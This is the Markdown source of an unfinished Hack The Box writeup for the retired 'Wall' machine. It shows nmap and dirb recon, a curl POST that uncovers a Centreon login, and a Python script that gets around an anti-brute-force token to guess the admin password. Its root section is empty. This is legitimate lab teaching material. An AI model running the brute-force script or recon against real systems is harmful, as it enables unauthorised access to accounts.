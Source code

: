 Title:HTB: Wall
Date: xx-xx-2020 12:30
category:security
tags:security, boot2root, HTB,
meta:security, boot2root, HTB,

<img class="align-left" src="/media/2020.xx/wall_card.png" alt="Wall Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Wall](https://www.hackthebox.eu/home/machines/profile/208).
This box is rated as a medium box. It implies a lot of frustration, some

<!-- PELICAN_END_SUMMARY -->

[TOC]

# User

## Recon

Let us start as always by a `nmap` scan the ports 22 (SSH) and 80 (HTTP)
are open.

    :::text
    # Nmap 7.80 scan initiated Thu Nov 28 07:17:03 2019 as: nmap -p- -oA nmap 10.10.10.157
    Nmap scan report for 10.10.10.157
    Host is up (0.085s latency).
    Not shown: 65444 closed ports, 89 filtered ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Thu Nov 28 07:30:05 2019 -- 1 IP address (1 host up) scanned in 782.66 seconds


## Web

The home page is the default Apache page.

![Default apache page](/media/2020.xx/wall_1.png)

We run a dib against the site. Only one URL is found by the tool `/monitoring`.
```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirb
START_TIME: Thu Sep 19 11:29:07 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)

-----------------
END_TIME: Thu Sep 19 11:41:07 2019
DOWNLOADED: 4612 - FOUND: 3
```

The page is protected with a basic auth with the message "Protected area by the
admin". We guess that the user is "admin".  We could try to bruteforce the
password but that doesn't work.

After some frustration, I sent some POST data to the page. Which result in a
redirection to `/monitoring/` (notice the final `\`) and to a new URL.

```
root@kalili:~# curl -d 'data=data' -X POST http://10.10.10.157/monitoring
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.10.157/monitoring/">here</a>.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.10.10.157 Port 80</address>
</body></html>
root@kalili:~# curl -d 'data=data' -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

We go to the `/centreon` URL. This is another authentication form.

![Centreon authentication](/media/2020.xx/wall_2.png)

We can guess that the user is admin. We load the 50 first enrties of rockyou
(`head -n 50 rockyou.txt > rockyou_50.txt`).

*Disclaimer: Bruteforce attacks are pretty uncommon on HTB. I asked on the
Discord if this was the right track before bruteforcing as it might distrupt the
box for other users.*

When looking at the requests we can see that there is an token to protect the
application against brute force. We wrote a simple python script to make a first
request, get the token and send a authentication requests.


    :::python
    import requests
    from bs4 import BeautifulSoup

    url = "http://10.10.10.157/centreon/index.php"

    def testPassword(password):
        s = requests.Session()
        r = s.get(url)

        soup = BeautifulSoup(r.text, 'html.parser')
        token = soup.find_all('input')[3].get('value')

        r = s.post(url, data = {'useralias':'admin', 'password': password, 'submitLogin':'Connect', 'centreon_token':token})
        if ('Your credentials are incorrect.' not in r.text):
            print(password)

    file = open("rockyou_50.txt")
    for password in file:
        testPassword(password.strip())

We launch the sciript and get the password: `password1`.

```
python3 bruteforce.py
password1

```

We can login in the centron interface.

![Centreon interface](/media/2020.xx/wall_3.png)

# Root

# Wrapping up
